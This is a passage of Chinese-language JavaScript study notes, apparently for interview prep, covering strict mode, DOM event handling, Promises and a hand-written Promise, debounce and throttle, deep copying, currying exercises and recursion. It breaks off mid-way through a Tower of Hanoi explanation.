'use strict';
- use strict放在脚本文件的第一行，整个脚本都将以严格模式运行。
- use strict放在函数体的第一行，则整个函数以严格模式运行。
- 显式报错
一些操作在正常模式下只会默默地失败，而在严格模式下会报错。
- 只读属性不可写
'use strict';
'abc'.length = 5;
// TypeError: Cannot assign to read only property 'length' of string 'abc'
// 对只读属性赋值会报错
'use strict';
Object.defineProperty({}, 'a', {
value: 37,
writable: false
});
obj.a = 123;
// TypeError: Cannot assign to read only property 'a' of object #<Object>
// 删除不可配置的属性会报错
'use strict';
var obj = Object.defineProperty({}, 'p', {
value: 1,
configurable: false
});
delete obj.p
// TypeError: Cannot delete property 'p' of #<Object>
- 只设置了取值器的属性不可写
'use strict';
var obj = {
get v() { return 1; }
};
obj.v = 2;
// Uncaught TypeError: Cannot set property v of #<Object> which has only a getter
- 禁止扩展的对象不可扩展
'use strict';
var obj = {};
Object.preventExtensions(obj);
obj.v = 1;
// Uncaught TypeError: Cannot add property v, object is not extensible
-
eval、arguments 不可用作标识名
'use strict'; var eval = 17; var arguments = 17; var obj = { set p(arguments) { } }; try { } catch (arguments) { } function x(eval) { } function arguments() { } var y = function eval() { }; var f = new Function('arguments', "'use strict'; return 17;"); // SyntaxError: Unexpected eval or arguments in strict mode -
函数不能有重名的参数
function f(a, a, b) { 'use strict'; return a + b; } // Uncaught SyntaxError: Duplicate parameter name not allowed in this context -
禁止八进制的前缀0表示法
'use strict'; var n = 0100; // Uncaught SyntaxError: Octal literals are not allowed in strict mode.
- 增强的安全措施
- 全局变量显式声明
'use strict';
v = 1; // 报错，v未声明
for (i = 0; i < 2; i++) { // 报错，i 未声明
// ...
}
function f() {
x = 123;
}
f() // 报错，未声明就创建一个全局变量
- 禁止 this 关键字指向全局对象
// 正常模式
function f() {
console.log(this === window);
}
f() // true
// 严格模式
function f() {
'use strict';
console.log(this === undefined);
}
f() // true
- 禁止使用 fn.callee、fn.caller
function f1() {
'use strict';
f1.caller; // 报错
f1.arguments; // 报错
}
f1();
- 禁止使用 arguments.callee、arguments.caller
'use strict';
var f = function () {
return arguments.callee;
};
f(); // 报错
- 禁止删除变量
'use strict';
var x;
delete x; // 语法错误
var obj = Object.create(null, {
x: {
value: 1,
configurable: true
}
});
delete obj.x; // 删除成功
- 静态绑定
JavaScript 语言的一个特点，就是允许“动态绑定”，即某些属性和方法到底属于哪一个对象，不是在编译时确定的，而是在运行时（runtime）确定的。严格模式对动态绑定做了一些限制。某些情况下，只允许静态绑定。也就是说，属性和方法到底归属哪个对象，必须在编译阶段就确定。这样做有利于编译效率的提高，也使得代码更容易阅读，更少出现意外。
-
禁止使用 with 语句
'use strict'; var v = 1; var obj = {}; with (obj) { v = 2; } // Uncaught SyntaxError: Strict mode code may not include a with statement- 创设 eval 作用域
正常模式下，JavaScript 语言有两种变量作用域（scope）：全局作用域和函数作用域。严格模式创设了第三种作用域：eval作用域。正常模式下，eval语句的作用域，取决于它处于全局作用域，还是函数作用域。严格模式下，eval语句本身就是一个作用域，不再能够在其所运行的作用域创设新的变量了，也就是说，eval所生成的变量只能用于eval内部。
(function () { 'use strict'; var x = 2; console.log(eval('var x = 5; x')) // 5 console.log(x) // 2 })() // 在 eval 中使用严格模式 // 方式一 function f1(str){ 'use strict'; return eval(str); } f1('undeclared_variable = 1'); // 报错 // 方式二 function f2(str){ return eval(str); } f2('"use strict";undeclared_variable = 1') // 报错- arguments 不再追踪参数的变化
function f(a) { a = 2; return [a, arguments[0]]; } f(1); // 正常模式为[2, 2] function f(a) { 'use strict'; a = 2; return [a, arguments[0]]; } f(1); // 严格模式为[2, 1]
- 向下一个版本的 JavaScript 过渡
- 非函数代码块不得声明函数
'use strict';
if (true) {
function f1() { } // 语法错误
}
for (var i = 0; i < 5; i++) {
function f2() { } // 语法错误
}
- 保留字
function package(protected) { // 语法错误
'use strict';
var implements; // 语法错误
}
总结
严格模式主要有以下限制。
- 变量必须声明后再使用
- 函数的参数不能有同名属性，否则报错
- 不能使用with语句
- 不能对只读属性赋值，否则报错
- 不能使用前缀 0 表示八进制数，否则报错
- 不能删除不可删除的属性，否则报错
- 不能删除变量delete prop，会报错，只能删除属性delete global[prop]
- eval不会在它的外层作用域引入变量
- eval和arguments不能被重新赋值
- arguments不会自动反映函数参数的变化
- 不能使用arguments.callee
- 不能使用arguments.caller
- 禁止this指向全局对象
- 不能使用fn.caller和fn.arguments获取函数调用的堆栈
- 增加了保留字（比如protected、static和interface）
事件
添加事件监听回调的方式
// 设置元素的事件属性为一个函数
const btn = document.querySelector('button');
btn.onclick = function() {}
// 设置 html 标签的事件属性
<button onclick="bgChange()">Press me</button>
// addEventListener() 和 removeEventListener()
const btn = document.querySelector('button');
function bgChange() {}
btn.addEventListener('click', bgChange);
btn.removeEventListener('click', bgChange);
当给同一个元素设置多个事件监听回调
// 设置元素的事件属性，后一个会覆盖掉前一个
myElement.onclick = functionA;
myElement.onclick = functionB;
// addEventListener 两个回调都会执行，按照代码中先后绑定的顺序依次执行
myElement.addEventListener('click', functionA);
myElement.addEventListener('click', functionB);
冒泡和捕获
- 当一个元素上的事件被触发了，浏览器会运行两个不同的阶段，捕获和冒泡。
- 捕获阶段。事件会从根元素向子孙元素传递，一直传递到目标元素为止，这期间如果有元素也绑定了同样的事件，那么它的回调函数也会被触发。
- 冒泡阶段。事件从目标元素开始，向祖先元素传递，一直到根元素为止。这期间如果有元素也绑定了同样的事件，那么它的回调函数也会被触发。
- 浏览器事件默认都是冒泡的，想要设置成捕获需要设置 addEventListener 第三个参数为 true
下面例子中，如果点击 d ，默认是冒泡的，所以事件回调触发顺序：d c b a
<div id="a">
<div id="b">
<div id="c">
<div id="d">
aaa
</div>
</div>
</div>
</div>
<script>
const a = document.getElementById('a');
const b = document.getElementById('b');
const c = document.getElementById('c');
const d = document.getElementById('d');
d.addEventListener('click', (e) => {
console.log('target：', e.target, 'currentTarget', e.currentTarget)
});
c.addEventListener('click', (e) => {
console.log('target：', e.target, 'currentTarget', e.currentTarget)
});
b.addEventListener('click', (e) => {
console.log('target：', e.target, 'currentTarget', e.currentTarget)
});
a.addEventListener('click', (e) => {
console.log('target：', e.target, 'currentTarget', e.currentTarget)
});
</script>
如果想要改成捕获的 a b c d，改成下面这样
<div id="a">
<div id="b">
<div id="c">
<div id="d">
aaa
</div>
</div>
</div>
</div>
<script>
const a = document.getElementById('a');
const b = document.getElementById('b');
const c = document.getElementById('c');
const d = document.getElementById('d');
d.addEventListener('click', (e) => {
console.log('target：', e.target, 'currentTarget', e.currentTarget)
});
c.addEventListener('click', (e) => {
console.log('target：', e.target, 'currentTarget', e.currentTarget)
}, true);
b.addEventListener('click', (e) => {
console.log('target：', e.target, 'currentTarget', e.currentTarget)
}, true);
a.addEventListener('click', (e) => {
console.log('target：', e.target, 'currentTarget', e.currentTarget)
}, true);
</script>
事件对象
addEventListener 添加的回调函数会收到一个参数，这个参数就是 Event 实例对象。
| 属性或方法 | 含义 |
|---|---|
| bubbles | 只读，布尔值，事件是否冒泡 |
| currentTarget | 只读，事件当前注册的元素的引用 |
| target | 只读，真正触发事件的那个元素的引用 |
| preventDefault() | 取消默认事件 |
| stopPropagation() | 阻止事件冒泡 |
下面是关于 preventDefault 阻止默认事件的例子
<!-- a 链接点击事件 preventDefault 后页面就不会跳转到链接 href 指向的页面了 -->
<a href="http://www.baidu.com" id="a">链接</a>
<script>
const a = document.getElementById('a');
a.addEventListener('click', (e) => {
e.preventDefault();
});
</script>
<!-- 在元素绑定的 contextmenu 事件里 preventDefault 会阻止浏览器打开默认的右键菜单 -->
<script>
document.documentElement.addEventListener('contextmenu', (e) => {
e.preventDefault();
});
// 下面这样也可以
document.oncontextmenu = function (e) {
e.preventDefault();
}
// 下面这样也可以
document.oncontextmenu = function () {
return false;
}
</script>
<!-- 表单的 submit 事件中 preventDefault 会阻止表单提交 -->
<form action="http://www.baidu.com" id="form">
<input type="text" value="aaa" name="name">
<button type="submit">提交</button>
</form>
<script>
const form = document.getElementById('form');
form.addEventListener('submit', (e) => {
console.log('submit')
e.preventDefault();
});
</script>
可以看到 preventDefault 和 return false 的区别，当直接给元素设置 onEventName 方法的时候，阻止默认事件就可以使用 return false。如果使用 addEventListener 添加回调，return false 则无效，只能使用 preventDefault。
下面的例子通过 event 对象判断按下了鼠标的哪个按键：
document.documentElement.addEventListener('mousedown', (e) => {
if (e.button === 0) {
console.log('你点击了鼠标左键');
}
if (e.button === 1) {
console.log('你点击了鼠标中键（滚轮）');
}
if (e.button === 2) {
console.log('你点击了鼠标右键');
}
});
自定义事件和原生事件
Event 本身是一个构造函数，可以新建自定义事件对象，然后使用 element.dispatchEvent(event) 去触发这个事件。
下面是 new Event 自定义事件的例子：
const event = new Event('build');
elem.addEventListener('build', function (e) {}, false);
elem.dispatchEvent(event);
如果想为自定义事件添加数据，可以使用 CustomEvent 构造函数创建自定义事件：
const event = new CustomEvent('build', {
detail: '哈哈哈', // 自定义数据，可以传任意类型
bubbles: false, // 是否能冒泡
cancelable: false, // 是否能取消
});
elem.addEventListener('build', function (e) {
console.log(e.detail) // '哈哈哈'
}, false);
elem.dispatchEvent(event);
如果想使用 js 去创建原生事件并且触发，可以使用原生事件对应的构造函数，例如 MouseEvent。
const event = new MouseEvent('click', {
'view': window,
'bubbles': true,
'cancelable': true
});
elem.dispatchEvent(event);
上面这样触发 click 事件相当于调用元素的 click() 方法：elem.click()。元素除了 click 方法，还有 blur focus 方法。
addEventListener
target.addEventListener(type, listener, options);
target.addEventListener(type, listener, useCapture);
当第三个参数 useCapture 使用布尔值的时候，含义是是否使用事件捕获。第三个参数使用对象的时候，有如下字段：
| options 中的字段 | 含义 |
|---|---|
| capture | 布尔值，表示事件捕获阶段会触发 listener |
| once | 布尔值，表示 listener 在添加之后最多只调用一次。如果是 true， listener 会在其被调用之后自动移除 |
| passive | 布尔值，当设置为 true， preventDefault 将无法取消事件。 |
关于 passive。当我们在滚动页面的时候（通常是我们监听 touch 事件的时候），页面其实会有一个短暂的停顿（大概200ms），浏览器不知道我们是否要 preventDefault，所以它需要一个延迟来检测。这就导致了我们的滑动显得比较卡顿。添加 passive: true 参数后，touchmove 事件不会阻塞页面的滚动（同样适用于鼠标的滚轮事件），也就是说它不会停顿 200ms 去判断是否会调用 preventDefault，于是滑动就不会卡顿了。
规范中 passive 默认值为 false。从 Chrome 56 开始，如果我们给 document 绑定 touchmove 或者 touchstart 事件的监听器，这个 passive 是会被默认设置为 true 以提高性能。
题目
现有瀑布流图片页面（页面下拉时无限加载新图片），用 js 监听每个图片的点击事件。
答案
给瀑布流父级盒子绑定事件即可，然后根据 e.target 获取到目标元素，判断如果是图片做相应的处理即可
const waterFallBox = document.getElementById('water-fall-box');
waterFallBox.addEventListener('click', function (e) {
if (e.target.tagName.toLowerCase() === 'img') {
// 做处理
}
});
promise
Promise 对象有以下两个特点。
-
对象的状态不受外界影响。Promise 对象代表一个异步操作，有三种状态：pending（进行中）、fulfilled（已成功）和 rejected（已失败）。只有异步操作的结果，可以决定当前是哪一种状态，任何其他操作都无法改变这个状态。这也是 Promise 这个名字的由来，它的英语意思就是“承诺”，表示其他手段无法改变。
-
一旦状态改变，就不会再变，任何时候都可以得到这个结果。Promise 对象的状态改变，只有两种可能：从 pending 变为 fulfilled 和从 pending 变为 rejected。只要这两种情况发生，状态就凝固了，不会再变了，会一直保持这个结果，这时就称为 resolved（已定型）。如果改变已经发生了，你再对 Promise 对象添加回调函数，也会立即得到这个结果。这与事件（Event）完全不同，事件的特点是，如果你错过了它，再去监听，是得不到结果的。
const promise = new Promise(function(resolve, reject) {
// ... some code
if (/* 异步操作成功 */){
resolve(value);
} else {
reject(error);
}
});
promise.then(function(value) {
// success
}, function(error) {
// failure
});
resolve 或 reject 之后的的代码会继续执行。
new Promise((resolve, reject) => {
console.log(1);
resolve(2);
console.log(3);
}).then((r) => {
console.log(r);
});
console.log(4);
// 1 3 4 2
加上 return 后面的代码就不会执行了
new Promise((resolve, reject) => {
console.log(1);
return resolve(2);
console.log(3);
}).then((r) => {
console.log(r);
});
console.log(4);
// 1 4 2
- Promise.prototype.then() 第一个参数是 resolved 状态的回调函数，第二个参数是 rejected 状态的回调函数，它们都是可选的。
- Promise.prototype.catch() 是 .then(null, rejection) 或 .then(undefined, rejection) 的别名，用于指定发生错误时的回调函数。
- 一般来说，不要在 then() 方法里面定义 Reject 状态的回调函数（即 then 的第二个参数），总是使用 catch 方法。
- Promise.prototype.finally() finally() 方法用于指定不管 Promise 对象最后状态如何，都会执行的操作。该方法是 ES2018 引入标准的。finally 方法的回调函数不接受任何参数，这表明，finally 方法里面的操作，应该是与状态无关的，不依赖于 Promise 的执行结果。
promise
.then(result => {···})
.catch(error => {···})
.finally(() => {···});
Promise.all() Promise.race() Promise.allSettled() Promise.any()
const p = Promise.all([p1, p2, p3]);
const p = Promise.race([p1, p2, p3]);
const p = Promise.allSettled([p1, p2, p3]);
const p = Promise.any([p1, p2, p3]);
// 下面是 allSettled 返回的结果数组的元素
// 异步操作成功时
// {status: 'fulfilled', value: value}
// 异步操作失败时
// {status: 'rejected', reason: reason}
- 它们四个都是将多个 promise 包装成一个
- Promise.all 当所有都 resolve 才会返回 resolve，否则返回第一个 reject
- Promise.race 哪一个先变，就返回哪一个的状态
- Promise.allSettled 所有异步都结束了，无论成功或者失败，返回结果对象组成的数组
- Promise.any 有一个 resolve 了就返回 resolve，所有 reject 了才返回 reject
下面是 Promise.any 例子
var resolved = Promise.resolve(42);
var rejected = Promise.reject(-1);
var alsoRejected = Promise.reject(Infinity);
Promise.any([resolved, rejected, alsoRejected]).then(function (result) {
console.log(result); // 42
});
Promise.any([rejected, alsoRejected]).catch(function (results) {
console.log(results); // [-1, Infinity]
});
题目
第一题
Promise.resolve(1).then(2).then(Promise.resolve(3)).then(console.log);
答案
如果 Promise.prototype.then 的第一个参数不是函数，则会在内部被替换为 (x) => x，即原样返回 promise 最终结果的函数。因此第一个 then 和 第二个 then 都变成了 (x) => x，x 是 一开始的 1 被传递下去。最后被 console.log 函数接收打印出来。
第二题
手写 promise 实现
const PENDING = 'pending';
const FULFILLED = 'fulfilled';
const REJECTED = 'rejected';
class MyPromise {
constructor(executor) {
this.state = PENDING;
this.value = undefined;
this.reason = undefined;
this.onFulfilledCallbacks = [];
this.onRejectedCallbacks = [];
const resolve = (value) => {
if (this.state === PENDING) {
this.state = FULFILLED;
this.value = value;
this.onFulfilledCallbacks.forEach((callback) =>
queueMicrotask(callback)
);
}
};
const reject = (reason) => {
if (this.state === PENDING) {
this.state = REJECTED;
this.reason = reason;
this.onRejectedCallbacks.forEach((callback) =>
queueMicrotask(callback)
);
}
};
try {
executor(resolve, reject);
} catch (error) {
reject(error);
}
}
then(onFulfilled, onRejected) {
onFulfilled =
typeof onFulfilled === 'function' ? onFulfilled : (value) => value;
onRejected =
typeof onRejected === 'function'
? onRejected
: (error) => {
throw error;
};
return new MyPromise((resolve, reject) => {
const handleFulfilled = () => {
queueMicrotask(() => {
try {
const result = onFulfilled(this.value);
resolve(result);
} catch (error) {
reject(error);
}
});
};
const handleRejected = () => {
queueMicrotask(() => {
try {
const result = onRejected(this.reason);
resolve(result);
} catch (error) {
reject(error);
}
});
};
if (this.state === FULFILLED) {
handleFulfilled();
} else if (this.state === REJECTED) {
handleRejected();
} else if (this.state === PENDING) {
this.onFulfilledCallbacks.push(handleFulfilled);
this.onRejectedCallbacks.push(handleRejected);
}
});
}
catch(onRejected) {
return this.then(null, onRejected);
}
static resolve(value) {
return new MyPromise((resolve) => resolve(value));
}
static reject(reason) {
return new MyPromise((_, reject) => reject(reason));
}
static all(promises) {
return new MyPromise((resolve, reject) => {
if (!Array.isArray(promises)) {
return reject(new TypeError('Expected an array'));
}
const results = new Array(promises.length);
let completedCount = 0;
if (promises.length === 0) {
return resolve(results);
}
promises.forEach((promise, index) => {
MyPromise.resolve(promise).then(
(value) => {
results[index] = value;
completedCount++;
if (completedCount === promises.length) {
resolve(results);
}
},
(error) => {
reject(error);
}
);
});
});
}
}
这个版本是最简洁且符合规范的实现，通过 queueMicrotask 实现了 Promise 的微任务异步特性，符合 Promise/A+ 规范：
- 保持了状态不可变性
- 实现了真正的异步回调
- 支持链式调用和错误处理
去抖和节流
去抖 debounce
解释：去抖就是将单位时间内的多次函数调用合并成一次，推迟到单位时间之后触发，或者在等待单位时间之前就立即触发。
实现思路：用一个变量存下定时器，每次函数被触发的时候都会重置定时器重新计时，这样直到不再触发函数，定时器才能正常被执行然后调用目标函数。
使用场景：
- 输入框监听输入事件或者按键抬起事件，会被频繁触发，去抖后只在停止输入了才去触发函数做搜索或者其他操作
- 防止多次点击按钮提交请求
实现一：
function debounce (fn, wait) {
let timer;
return function () {
const context = this;
const args = arguments;
clearTimeout(timer);
timer = setTimeout(() => {
fn.apply(context, args)
}, wait);
}
}
实现二：
function debounce (func, wait, immediate) { // 有时希望立刻执行函数，然后等到停止触发 n 秒后，才可以重新触发执行。
let timeout;
return function () {
const context = this;
const args = arguments;
if (timeout) clearTimeout(timeout);
if (immediate) {
const callNow = !timeout;
timeout = setTimeout(function () {
timeout = null;
}, wait)
if (callNow) func.apply(context, args)
} else {
timeout = setTimeout(function () {
func.apply(context, args)
}, wait);
}
}
}
实现三：
// func函数可能会有返回值，所以需要返回函数结果，但是当 immediate 为 false 的时候，因为使用了 setTimeout ，我们将 func.apply(context, args) 的返回值赋给变量，最后再 return 的时候，值将会一直是 undefined，所以只在 immediate 为 true 的时候返回函数的执行结果。
function debounce (func, wait, immediate) {
let timeout, result;
return function () {
const context = this;
const args = arguments;
if (timeout) clearTimeout(timeout);
if (immediate) {
const callNow = !timeout;
timeout = setTimeout(function () {
timeout = null;
}, wait)
if (callNow) result = func.apply(context, args)
}
else {
timeout = setTimeout(function () {
func.apply(context, args)
}, wait);
}
return result;
}
}
节流 throttle
解释：规定在单位时间内只能触发有限次函数。
使用场景：
- 窗口改变大小，resize 事件
- 拖拽滚动条，scroll 事件
- 拖拽 html 元素
实现一：
function throttle(fn, wait) {
let timer;
return function () {
const context = this;
const args = arguments;
if (!timer) {
fn.apply(context, args);
timer = setTimerout(() => {
timer = null
}, wait);
}
}
}
实现二：
function throttle(fn, wait) {
let prev = 0;
return function () {
const context = this;
const args = arguments;
let now = Date.now();
if (now - prev > wait) {
fn.apply(context, args);
prev = now;
}
}
}
深浅拷贝
浅拷贝
在堆中新建一块内存，拷贝和原对象一样的属性，如果属性的值是基础类型的数据，则复制值；如果属性的值是对象（引用类型），则复制的是这个对象在栈内存中的地址，相当于它们引用同一份堆内存。
let a = [1, 2, 3, [1, 1, 1]];
let b = a.slice(); // 数组浅拷贝。slice 参数为 start 和 end，如果两个参数都省略，则直接返回当前数组的浅拷贝。
let c = a.concat(); // 数组浅拷贝。concat 参数为要和当前数组连接的多个其他数组，如果省略参数，则直接返回当前数组的浅拷贝。
let d = {t: 1};
let e = Object.assign({}, d); // 对象浅拷贝。Object.assign 第一个参数是目标对象，之后的参数是要合并入目标对象的源对象。后面的源对象会覆盖前面的对象的同名属性，都合并到目标对象后，返回被改变的目标对象。
// 展开运算符也是浅拷贝
let f = [1, 2, 3, [1, 1, 1]];
let g = {t: 1};
let h = [...f];
let i = {...g};
深拷贝
在堆中新建内存，拷贝原对象的属性，如果属性是对象（引用类型），就创建这个属性为新对象，递归地去拷贝此对象上的属性。
JSON.parse(JSON.stringify())
缺点：只能处理函数和对象，正则对象和函数会失败，正则变成空对象，函数被去掉（最新的 chrome）。
手写深拷贝
深拷贝需要考虑的问题：
- 拷贝不同类型的引用类型，例如正则和函数。
- 循环引用会造成无限递归调用
- 引用丢失问题。如果两个不同的属性指向同一个引用类型对象，如果不处理，拷贝结束后这两个属性会是两个不同的对象。
- 对象层次太深，深拷贝递归调用会造成栈溢出。
第一种写法
// 只考虑了所有属性都是对象的情况
function cloneLoop(x) {
const root = {};
const handledObj = [];
const loopList = [
{
parent: root,
key: undefined,
data: x,
}
];
while(loopList.length) {
const node = loopList.pop();
const parent = node.parent;
const key = node.key;
const data = node.data;
let res = parent;
if (typeof key !== 'undefined') {
res = parent[key] = {};
}
let alreadyHandled = handledObj.find(item => item.data === data);
if (alreadyHandled) {
parent[key] = alreadyHandled.copy;
continue;
}
handledObj.push({
data: data,
copy: res
});
for(let k in data) {
if (data.hasOwnProperty(k)) {
if (typeof data[k] === 'object') {
loopList.push({
parent: res,
key: k,
data: data[k],
});
} else {
res[k] = data[k];
}
}
}
}
return root;
}
如果不考虑循环引用，如下：
function cloneLoop(x) {
const root = {};
// const handledObj = [];
const loopList = [
{
parent: root,
key: undefined,
data: x,
}
];
while(loopList.length) {
const node = loopList.pop();
const parent = node.parent;
const key = node.key;
const data = node.data;
let res = parent;
if (typeof key !== 'undefined') {
res = parent[key] = {};
}
// let alreadyHandled = handledObj.find(item => item.data === data);
// if (alreadyHandled) {
// parent[key] = alreadyHandled.copy;
// continue;
// }
// handledObj.push({
// data: data,
// copy: res
// });
for(let k in data) {
if (data.hasOwnProperty(k)) {
if (typeof data[k] === 'object') {
loopList.push({
parent: res,
key: k,
data: data[k],
});
} else {
res[k] = data[k];
}
}
}
}
return root;
}
关键实现是使用一个栈结构存储当前循环要处理的拷贝。栈中的对象有三个属性：1. parent 即将被拷贝的对象所要添加到的对象。2. key 即将被拷贝的对象对应的属性。3. data 即将被拷贝的对象。也就是说将要做的事就是使 parent.key = 拷贝的 data。
解决引用丢失和循环引用的办法就是再声明一个数组，每次往新拷贝结果对象上拷贝属性的时候，都将处理过的 key 对应的原始值的引用和拷贝后的新值的引用存入数组。然后每次循环都先遍历这个数组，如果当前属性值和之前某一次的是同一个引用类型对象，则直接赋值，然后跳出本次循环。
// 引用丢失测试用例
var b = {};
var a = {a1: b, a2: b};
a.a1 === a.a2 // true
var c = cloneLoop(a);
c.a1 === c.a2
第二种写法：
const mapTag = '[object Map]';
const setTag = '[object Set]';
const arrayTag = '[object Array]';
const objectTag = '[object Object]';
const argsTag = '[object Arguments]';
const boolTag = '[object Boolean]';
const dateTag = '[object Date]';
const numberTag = '[object Number]';
const stringTag = '[object String]';
const symbolTag = '[object Symbol]';
const errorTag = '[object Error]';
const regexpTag = '[object RegExp]';
const funcTag = '[object Function]';
const deepTag = [mapTag, setTag, arrayTag, objectTag, argsTag];
function forEach(array, iteratee) {
let index = -1;
const length = array.length;
while (++index < length) {
iteratee(array[index], index);
}
return array;
}
function isObject(target) {
const type = typeof target;
return target !== null && (type === 'object' || type === 'function');
}
function getType(target) {
return Object.prototype.toString.call(target);
}
function getInit(target) {
const Ctor = target.constructor;
return new Ctor();
}
function cloneSymbol(targe) {
return Object(Symbol.prototype.valueOf.call(targe));
}
function cloneReg(targe) {
const reFlags = /\w*$/;
const result = new targe.constructor(targe.source, reFlags.exec(targe));
result.lastIndex = targe.lastIndex;
return result;
}
function cloneFunction(func) {
const bodyReg = /(?<={)(.|\n)+(?=})/m;
const paramReg = /(?<=\().+(?=\)\s+{)/;
const funcString = func.toString();
if (func.prototype) {
const param = paramReg.exec(funcString);
const body = bodyReg.exec(funcString);
if (body) {
if (param) {
const paramArr = param[0].split(',');
return new Function(...paramArr, body[0]);
} else {
return new Function(body[0]);
}
} else {
return null;
}
} else {
return eval(funcString);
}
}
function cloneOtherType(targe, type) {
const Ctor = targe.constructor;
switch (type) {
case boolTag:
case numberTag:
case stringTag:
case errorTag:
case dateTag:
return new Ctor(targe);
case regexpTag:
return cloneReg(targe);
case symbolTag:
return cloneSymbol(targe);
case funcTag:
return cloneFunction(targe);
default:
return null;
}
}
function clone(target, map = new WeakMap()) {
// 克隆原始类型
if (!isObject(target)) {
return target;
}
// 初始化
const type = getType(target);
let cloneTarget;
if (deepTag.includes(type)) {
cloneTarget = getInit(target, type);
} else {
return cloneOtherType(target, type);
}
// 防止循环引用
if (map.get(target)) {
return map.get(target);
}
map.set(target, cloneTarget);
// 克隆set
if (type === setTag) {
target.forEach(value => {
cloneTarget.add(clone(value, map));
});
return cloneTarget;
}
// 克隆map
if (type === mapTag) {
target.forEach((value, key) => {
cloneTarget.set(key, clone(value, map));
});
return cloneTarget;
}
// 克隆对象和数组
const keys = type === arrayTag ? undefined : Object.keys(target);
forEach(keys || target, (value, key) => {
if (keys) {
key = value;
}
cloneTarget[key] = clone(target[key], map);
});
return cloneTarget;
}
module.exports = {
clone
};
柯里化
柯里化（Currying）是把接受多个参数的函数变换成接受一个单一参数(最初函数的第一个参数)的函数，并且返回接受余下的参数且返回结果的新函数的技术。
柯里化是在一个函数的基础上进行变换，得到一个新的预置了参数的函数。最后在调用新函数时，实际上还是会调用柯里化前的原函数。
参数定长的柯里化
function curry(fn) {
const argLen = fn.length;
const presetArgs = [].slice.call(arguments, 1)
return function() {
const restArgs = [].slice.call(arguments)
const allArgs = [...presetArgs, ...restArgs]
if (allArgs.length >= argLen) {
return fn.apply(this, allArgs)
} else {
return curry.call(null, fn, ...allArgs)
}
}
}
测试用例
function fn(a, b, c) {
return a + b + c;
}
var curried = curry(fn);
curried(1, 2, 3); // 6
curried(1, 2)(3); // 6
curried(1)(2, 3); // 6
curried(1)(2)(3); // 6
curried(7)(8)(9); // 24
参数不定长的柯里化
function curry(fn) {
let presetArgs = [].slice.call(arguments, 1);
function curried() {
let restArgs = [].slice.call(arguments);
let allArgs = [...presetArgs, ...restArgs];
return curry.call(null, fn, allArgs);
}
curried.toString = function () {
return fn.apply(null, presetArgs);
}
return curried;
}
测试
function dynamicAdd() {
return [...arguments].reduce((prev, curr) => {
return prev + curr
}, 0)
}
var add = curry(dynamicAdd);
(add(1)(2)(3)(4)).toString() // 10
(add(1, 2)(3, 4)(5, 6)).toString() // 21
toString 的调用如果不对函数结果进行隐式转换就不会起作用，总是会打印函数，于是修改一下：
function curry(fn) {
let args = [].slice.call(arguments, 1)
function curried () {
if (arguments.length) {
args = [...args, ...[].slice.call(arguments)];
return curried;
} else {
return fn.apply(null, args);
}
}
return curried
}
function dynamicAdd() {
console.log(arguments, '看看')
return [...arguments].reduce((prev, curr) => {
return prev + curr
}, 0)
}
var add = curry(dynamicAdd);
add(1, 2)(3, 4)(5, 6)() // 21
再次优化，每次计算结果后将后来追加的参数置空，这样不会发生再次调用参数不断累加的情况
function curry(fn) {
let preArgs = [].slice.call(arguments, 1);
let resArgs = [];
function curried() {
if (arguments.length) {
resArgs = [...resArgs, ...([].slice.call(arguments))];
return curried;
} else {
let allArgs = [...preArgs, ...resArgs];
resArgs = [];
return fn.apply(this, allArgs);
}
}
return curried;
}
function sum() {
return [].slice.call(arguments).reduce((acc, i) => (acc += i, acc), 0);
}
let s = curry(sum, 1);
console.log(s(2, 3)(4)());
console.log(s(2, 3)(4)());
// 两次都是 10
题目
第一题
实现 add(1)(2)(3)(4) 的打印结果为 10，并且要求可以随意调用，不过每次只传一个参数，如 add(1)(2)(3)(4)(5) 的打印结果为 15
答案
function add(x) {
let sum = x;
function curry(y) {
if (arguments.length === 0) return sum;
sum += y;
return curry
}
return curry;
}
第二题
实现 add(1, 2)(3) 的打印结果为 6，add(1)(2, 3, 4)(5) 结果为 15， 意思就是传递的参数个数不固定
答案
function add(x) {
let args = [].slice.call(arguments);
function curry() {
args = [...args, ...[].slice.call(arguments)];
return curry
}
curry.toString = function () {
return args.reduce((acc, i) => (acc += i, acc), 0);
}
return curry;
}
第三题
实现一个 sum 函数
sum(1, 2, 3).valueOf(); // 6
sum(2, 3)(2).valueOf(); // 7
sum(1)(2)(3)(4).valueOf(); // 10
sum(2)(4, 1)(2).valueOf(); // 9
答案
function curry(fn) {
let preArgs = [].slice.call(arguments, 1);
let allArgs = [...preArgs];
function curried() {
if (arguments.length > 0) {
allArgs = [...allArgs, ...([].slice.call(arguments))];
return curried;
}
}
curried.valueOf = function () {
let res = fn.apply(this, allArgs);
allArgs = [...preArgs];
return res;
}
return curried;
}
function s() {
return [].slice.call(arguments).reduce((acc, item) => (acc += item, acc), 0)
}
let sum = curry(s);
console.log(sum(1, 2, 3).valueOf())
console.log(sum(2, 3)(2).valueOf())
console.log(sum(1)(2)(3)(4).valueOf())
console.log(sum(2)(4, 1)(2).valueOf())
递归
程序自己调用自己就是递归。递归是为了将一个问题分解成更简单的子问题然后解决。
求阶乘
一个正整数的阶乘（factorial）是所有小于及等于该数的正整数的积，并且 0 的阶乘为 1。
n! = n * (n - 1) * (n - 1 - 1) * ...... * 1
function factorial (n) {
if (n === 0) return 1;
return n * factorial(n - 1)
}
斐波那契数列
斐波那契数列是这样的定义：F(0) = 0，F(1) = 1, F(n) = F(n - 1) + F(n - 2)
例如：0、1、1、2、3、5、8
function fibonacci (n) {
if (n === 1) return 0;
if (n === 2) return 1;
return fibonacci(n - 1) + fibonacci(n - 2)
}
利用缓存优化一下
const cache = {};
function fibonacci (n) {
if (n === 1) return 0;
if (n === 2) return 1;
if (cache[n]) return cache[n];
return cache[n] = fibonacci(n - 1) + fibonacci(n - 2)
}
汉诺塔
在经典汉诺塔问题中，有 3 根柱子及 N 个不同大小的穿孔圆盘，盘子可以滑入任意一根柱子。一开始，所有盘子自上而下按升序依次套在第一根柱子上(即每一个盘子只能放在更大的盘子上面)。移动圆盘时受到以下限制:
- 每次只能移动一个盘子;
- 盘子只能从柱子顶端滑出移到下一根柱子;
- 盘子只能叠在比它大的盘子上。
请编写程序，用栈将所有盘子从第一根柱子移到最后一根柱子。
你需要原地修改栈。
示例1:
输入：A = [2, 1, 0], B = [], C = []
输出：C = [2, 1, 0]
示例2:
输入：A = [1, 0], B = [], C = []
输出：C = [1, 0]
思路：
- n = 1 时，直接把盘子从 A 移到 C；
- n > 1 时，
- 先把上面 n - 1 个盘子从 A 移到 B（子问题，递归）；
- 再将最大的盘子从 A 移到 C；
